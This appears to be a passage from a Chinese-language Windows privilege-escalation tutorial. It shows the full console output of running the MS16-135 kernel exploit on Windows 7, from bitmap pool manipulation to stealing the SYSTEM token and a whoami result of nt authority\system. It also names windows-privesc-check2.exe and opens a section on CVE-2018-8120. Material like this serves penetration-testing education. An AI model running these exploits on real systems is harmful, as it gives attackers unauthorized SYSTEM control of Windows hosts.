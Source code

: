 演示`ms16_135`

```bash
PS C:\phpstudy_pro\WWW> .\MS16-135.ps1
         _____ _____ ___   ___     ___   ___ ___
        |     |   __|_  | |  _|___|_  | |_  |  _|
        | | | |__   |_| |_| . |___|_| |_|_  |_  |
        |_|_|_|_____|_____|___|   |_____|___|___|


                           [by b33f -> @FuzzySec]

[?] Target is Win 7
[+] Bitmap dimensions: 0x770*0x4

[?] Adjacent large session pool feng shui..
[+] Worker  : FFFFF900C1E52000
[+] Manager : FFFFF900C1E54000
[+] Distance: 0x2000

[?] Creating Window objects
[+] Corrupting child window spmenu
[+] Trying to trigger arbitrary 'Or'..
[+] Trying to trigger arbitrary 'Or'..

[?] Success, reading beyond worker bitmap size!
[+] Old manager bitmap pvScan0: FFFFF900C1E54238
[+] New manager bitmap pvScan0: FFFFF900C1E52050

[>] Leaking SYSTEM _EPROCESS..
[+] _EPROCESS list entry: 0xFFFFF80004116030
[+] SYSTEM _EPROCESS address: 0xFFFFFA800CD3F040
[+] PID: 4
[+] SYSTEM Token: 0xFFFFF8A0000049FB

[>] Leaking current _EPROCESS..
[+] Traversing ActiveProcessLinks list
[+] PowerShell _EPROCESS address: 0xFFFFFA800EEB9150
[+] PID: 3760
[+] PowerShell Token: 0xFFFFF8A0037A1A9A

[!] Duplicating SYSTEM token!

PS C:\phpstudy_pro\WWW> whoami
nt authority\system
```

`windows-privesc-check2.exe` 这个也可以。

**3.4.4 CVE2018-8120提权**

windwos 2008 + iis7

CVE-2018-8120 Windows LPE exploit

